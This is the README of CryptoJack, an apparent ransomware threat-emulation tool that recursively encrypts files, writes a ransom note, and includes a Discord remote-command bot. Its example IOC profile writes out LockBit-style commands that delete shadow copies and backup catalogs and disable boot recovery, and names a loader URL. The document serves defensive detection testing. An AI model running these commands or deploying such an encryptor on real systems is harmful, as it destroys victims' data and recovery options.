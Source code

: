 # CryptoJack

### ⚠️🛑 THIS SOFTWARE CAN DESTROY DATA! 🛑⚠️

**This software is provided *as is* for penetration testing threat emulation use ONLY!**

CryptoJack is a ransomware simulation/threat emulation program which can be used to check whether current
defenses are able to detect ransomware activity.  CryptoJack has no built in exploitation
or spreading ability but rather focuses on the core activity of recursively encrypting
files in a specified directory. CryptoJack is written in GOlang and will execute in either
a Linux or Windows environment.

CryptoJack consists of four components:

* **fakedata**: the ability to generate a recursive directory structure with fake documents in each directory.
* **encrypt**: the encryption program itself.
* **decrypt**: the decryption program.
* **rbot**: an experimental Discord bot that allows for remote command operation.


---
⚠️**WARNING⚠️ : When using this tool, DO NOT DELETE THE ENCRYPTION KEY FILE(S). 
Encrypted data IS NOT RECOVERABLE if you DELETE the encryption key file(s).**

After an encryption operation, the following listed files are **CRITICAL** and must not be deleted.

* **\_\_RansomKey\_\_.txt**: Windows/Linux/UNIX public key file
* **\_\_RansomKey\_\_.txt**:rsaPrivKey (Windows private key in alternate data store)
* **\_\_RansomKey\_\_.txt**:aesEncKey (Windows AES symmetric key in alternate data store)
* **.CryptoJack.rsaPrivKey**: Linux/UNIX private key file
* **.CryptoJack.aesEncKey**: Linux/UNIX AES symmetric key file
* **.CryptoJack.Hashes.db**: Windows/Linux/UNIX encrypted file hashes database

---

## Compiling

In order to compile the source code, you will the latest **golang** compiler installed
as well as **mingw-gcc**. Make sure you choose the 64-bit version of everything!

* [https://go.dev/doc/install] (https://go.dev/doc/install)
* [https://www.mingw-w64.org/] (https://www.mingw-w64.org/)

After you install the right things above, make sure the *mingw-w64* bin directory is in your
path and then use the **mingw32-make** command. The output from compilation should look like this:

```
PS C:\CryptoJack> mingw32-make.exe
[*] Building encrypt, decrypt, fakedata, and rbot
=================================================
  Successfully compiled the CryptoJack Project!
=================================================
```

## Typical Usage Sequence

Most people will be comforted by the idea that you can create a fake data directory
structure so that using this ransomware threat emulation tool does not impact production data.
The **fakedata** tool with default options will create a fake data structure with a randomly
chosen english word as the starting directory. You can also specify this if you desire.

```
PS C:\demo> .\fakedata.exe -depth 1

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    FAKE DATA

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________

[*] Fake data directory is: [C:\demo\Bosom], max depth = 1.
[*] DO YOU WANT TO PROCEED [Y|N]? Y
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Partner]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Wage]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Continent]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Psychologist]
2022/04/18 10:45:08 Fake Data Creation: [C:\demo\Bosom\Allocation]
Created 5 fake directories and 70 files in [C:\demo\Bosom]!

```

After creating fake data, you would then execute the **encrypt** operation providing a YML
IOC profile using the "-y" argument if you so desire. When encryption is complete, it will
write the encryption key files, database hashing file, and a file called *__RansomNote__.html*
as well as opening up the ransom note in a browser.


```
PS C:\demo> .\encrypt.exe -d .\Bosom\

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    ENCRYPTOR

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________


[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--
[*]
[*] You are about to encrypt ALL files recursively in the target
[*] directory: [.\Bosom\]
[*]
[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--

[*] DO YOU REALLY WANT TO PROCEED [Y|N]? Y
2022/04/18 10:46:23 ENCRYPTED 1/70: C:\demo\Bosom\AlcoveAtrium.pdf
2022/04/18 10:46:24 ENCRYPTED 2/70: C:\demo\Bosom\AmnestyTownhouse.xlsx
2022/04/18 10:46:24 ENCRYPTED 3/70: C:\demo\Bosom\AnchovyInfarction.xlsx
2022/04/18 10:46:24 ENCRYPTED 4/70: C:\demo\Bosom\BiplaneCounterterrorism.pdf
2022/04/18 10:46:24 ENCRYPTED 5/70: C:\demo\Bosom\BoughSeafood.xlsx
2022/04/18 10:46:24 ENCRYPTED 6/70: C:\demo\Bosom\Continent\AcademyAirforce.xlsx
2022/04/18 10:46:24 ENCRYPTED 7/70: C:\demo\Bosom\Continent\ApparelUnemployment.pdf
```

After the testing is complete, you can **decrypt** the files using the decryption tool.
This requires that the encryption key files are maintained in the fake or real directory
structure (see warning above). As the files are decrypted, a SHA256 hash is checked
in the database and assuming file integrity is correct, the string "OK" will be printed
during decryption. Example output is below...

```
PS C:\demo> .\decrypt.exe -d .\Bosom\

_________________________________________________

    ╔═╗┬─┐┬ ┬┌─┐┌┬┐┌─┐ ╦┌─┐┌─┐┬┌─
    ║  ├┬┘└┬┘├─┘ │ │ │ ║├─┤│  ├┴┐
    ╚═╝┴└─ ┴ ┴   ┴ └─┘╚╝┴ ┴└─┘┴ ┴
    DECRYPTOR

    Version 1.0.1 by Joff Thyer
    Black Hills Information Security
    Copyright (c) 2022
__________________________________________________


[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--
[*]
[*] You are about to decrypt ALL files recursively in the target
[*] directory: [.\Bosom\]
[*]
[*] --<[ WARNING ]>--    --<[ WARNING ]>--    --<[ WARNING ]>--

[*] DO YOU REALLY WANT TO PROCEED [Y|N]? Y
2022/04/18 11:18:54 DECRYPTED 1/70: C:\demo\Bosom\AlcoveAtrium.pdf.cryptojack (OK)
2022/04/18 11:18:54 DECRYPTED 2/70: C:\demo\Bosom\AmnestyTownhouse.xlsx.cryptojack (OK)
2022/04/18 11:18:54 DECRYPTED 3/70: C:\demo\Bosom\AnchovyInfarction.xlsx.cryptojack (OK)
```


## YML IOC Profiles

Within the CryptoJack distribution is a *yml* directory containing profiles
used for threat emulation. As of today, the only two IOC types supported
(*ioc_type*) are **url**, and **command**. In the case of **url**, the code will
attempt an HTTP GET request during *encrypt* for any URL specified.
In the latter case of **command**, an *echo* statement is always placed in front of any executed O/S command.


### Example YML Profile

```
- data: https://docs.google.com/spreadsheets/d/11C7pdR3r_VeOPQXpRCGtUEJoftKO1wB7ZFfX0t94XTw/edit#gid=0&range=B1
  ioc_type: url
  note: LockBit backdoor installer loader URL
- data: vssadmin Delete Shadows /All /Quiet
  ioc_type: command
  note: LockBit
- data: vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no & wbadmin delete catalog -quiet
  ioc_type: command
  note: LockBit
```

Please use this tool for its intended simulation / threat emulation purposes ONLY.
Thank you,
<br />
Joff Thyer

<br />
This project is a product of both Black Hills Information Security LLC and RiverGum Security LLC.

![BHIS Logo](/images/bhislogo.png|width=100)




